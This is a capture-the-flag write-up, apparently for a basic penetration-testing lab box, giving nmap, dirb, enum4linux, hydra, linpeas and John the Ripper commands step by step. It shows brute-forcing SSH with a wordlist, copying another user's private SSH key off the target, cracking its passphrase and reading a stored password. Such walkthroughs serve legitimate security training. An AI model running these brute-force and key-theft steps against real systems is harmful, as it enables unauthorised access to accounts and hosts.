 # Basic Penetration Testing Box
--------------------------------------------------------------------

**TOOLS USED**: nmap, dirbuster, enum4linux, hydra, linpeas, John the Ripper

**nmap**: network exploration tool and security / port scanner<br>
```
nmap [Scan Type...] [Options] {target specification}
```
Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

**dirbuster**: web content scanner

```
dirb <url_base> <url_base> [<wordlist_file(s)>] [options]
```

**enum4linux**: tool for enumerating information from Windows and Samba systems

**hydra**: network logon cracker

```
hydra
       [[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]
       [-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]
       [-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]
       [-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]
       server service [OPTIONS]
```

**linpeas**: script that searches for possible paths to escalate privileges on Linux/Unix*/MacOS hosts

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------
## GIVEN INFO


**IP Address**: 10.10.19.208

--------------------------------------------------------------------
## PROCEDURE



### 1. FIND EXPOSED SERVICES


**TOOLS**: nmap

```
nmap -sC -sV -oN nmap.txt 10.10.19.208
```
-sC: script scan with default scripts<br>
-sV: probe open ports to determine service/version info<br>
-oN: output scan in normal to given filename<br>


![nmap](./nmap.png)


**EXPOSED PORT (SERVICE)**:<br>
  22 (ssh),<br>
  80 (http),<br>
  139 (smbd),<br>
  445 (smbd),<br>
  8009 (ajp13),<br>
  8080 (http)<br>

----------------------------------
## 2. FIND HIDDEN DIR ON WEB SERVER


**TOOLS**: dirbuster

```
dirb http://10.10.19.208
```

![dirb](./dirb.png)

**HIDDEN DIR**: /development

----------------------------------
## 3. GET USERNAME & PASSWORD


**TOOLS**: enum4linux, hydra

**NOTE**: J has a weak password

```
enum4linux -a 10.10.19.208 | tee enum4linux.log
```

-a: do all simple enumerations

![enum4linux](./enum4linux.png)

**USERS**: jan, kay

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.19.208
```

-l: login name<br>
-P: password file to iterate through

![hydra](./hydra.png)

**PASSWORD**: armando

----------------------------------
## 4. FIND PRIVILEGE ESCALATION VECTORS


**TOOLS**: linpeas, John the Ripper

Host Machine
```
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  scp linpeas.sh jan@10.10.19.208:/dev/shm
```

Target Machine
```
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

Host Machine
```
scp jan@10.10.19.208:/dev/shm/linpeas.txt linpeas.txt
scp jan@10.10.19.208:/home/kay/.ssh/id_rsa kay_id_rsa
```

![linpeas](./linpeas.png)

```
ssh2john kay_id_rsa > 4john.txt
john 4john.txt
```

![john](./john.png)

**PASSWORD**: beeswax

----------------------------------
## 5. FINAL PASSWORD



```
ssh -i kay_id_rsa kay@10.10.19.208
cat pass.bak
```

**PASSWORD**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
